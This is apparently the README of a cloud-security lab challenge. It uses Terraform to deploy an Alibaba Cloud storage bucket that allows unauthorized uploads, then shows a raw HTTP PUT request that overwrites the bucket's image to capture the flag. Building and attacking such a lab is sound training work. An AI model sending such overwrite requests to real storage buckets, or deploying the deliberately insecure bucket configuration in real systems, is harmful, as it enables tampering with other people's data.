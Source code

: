 # Description

English | [中文](./README_CN.md)

This is a script to help you quickly build storage buckets for unauthorized uploads, have fun!

## Deployment environment

### Git clone

```bash
cd /TerraformGoat/aliyun/object_storage_service/unrestricted_file_upload/ 
```

```bash
terraform init
```

![image-20220425192835507](../../../images/image-20220425192835507.png)

```bash
terraform apply
```

![image-20220425192251992](../../../images/image-20220425192251992.png)

If you confirm that there is no problem, type yes and wait for the build

![image-20220425192314435](../../../images/image-20220425192314435.png)

## Get Flag

Visit /hx.png to get the image

![image-20220425192605952](../../../images/image-20220425192605952.png)

This image can be overwritten by using the PUT method

```http
PUT /hx.png HTTP/1.1
Host: hx-cloud-security-ctf-nsao6.oss-cn-beijing.aliyuncs.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 13

HxSecurityLab
```

![image-20220425192622938](../../../images/image-20220425192622938.png)

Afterwards, we use the GET method to get the contents of our overwritten

![image-20220425192649111](../../../images/image-20220425192649111.png)

## Destruction Challenge

```bash
terraform destroy
```

![image-20220425192403147](../../../images/image-20220425192403147.png)
